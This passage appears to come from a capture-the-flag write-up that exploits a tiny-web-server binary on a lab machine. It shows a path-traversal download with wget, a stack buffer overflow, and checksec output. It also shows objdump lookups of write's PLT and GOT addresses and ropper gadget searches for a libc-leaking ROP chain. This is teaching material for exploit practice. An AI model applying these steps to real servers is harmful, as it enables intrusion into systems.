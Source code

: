 ```c
}
```
Here, we can see that `filename` (or `uri[MAXLINE]`) is URL-decoded and copied into `req->filename`. However, `MAXLINE` is defined as 1024 even though the size of `http_request->filename` is equal to 512. We'll use this buffer overflow to create an exploit.

Let's use the path traversal to download the binary.
```sh
$ wget http://10.10.10.89:1111//home/www/tiny-web-server/tiny -O tiny
$ ./tiny
listen on port 9999, fd is 3
^C
```

Check it's properties.
```sh
$ checksec tiny
[*] '/tmp/data/tiny'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
    FORTIFY:  Enabled
```

Ok, so this is where we chose the hard way (there is an easier way, which I might work out some day). We will try to leak an address of a function that falls in LIBC. We do this by making a call to `write` with the address we want to leak. For this we need the address of `write` in PLT (which we will call) and GOT (which we will use to leak the LIBC address).
```
$ objdump -d tiny | grep write
0000000000400c50 <write@plt>:
  400c50:	ff 25 e2 23 20 00    	jmpq   *0x2023e2(%rip)        # 603038 <write@GLIBC_2.2.5>
$ objdump -R tiny | grep write
0000000000603038 R_X86_64_JUMP_SLOT  write@GLIBC_2.2.5
```

Furthermore, we need to set `rdi`, `rsi` and `rdx`<sup>2</sup>, which will be the arguments for `write(fd, void *buf, count)` (in that respective order).

```sh
$ ropper -f tiny | grep rdi
[...]
0x00000000004011dd: pop rdi; ret;
[...]

$ ropper -f tiny | grep rsi
[...]
0x00000000004011db: pop rsi; pop r15; ret;
[...]
```

Unfortunately, there is no `pop rdx;` in the binary, which is the number of bytes we would like to write to our file descriptor.
```sh
$ ropper -f tiny | grep rdx
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
0x00000000004026b7: add byte ptr [rax + rax], dh; add byte ptr [rax], al; sub al, 2; add byte ptr [rax], al; sal dl, 0xff; jmp qword ptr [rdx];
0x00000000004026b9: add byte ptr [rax], al; add byte ptr [rdx + rax], ch; add byte ptr [rax], al; sal dl, 0xff; jmp qword ptr [rdx];
0x00000000004026be: add byte ptr [rax], al; sal dl, 0xff; jmp qword ptr [rdx];
```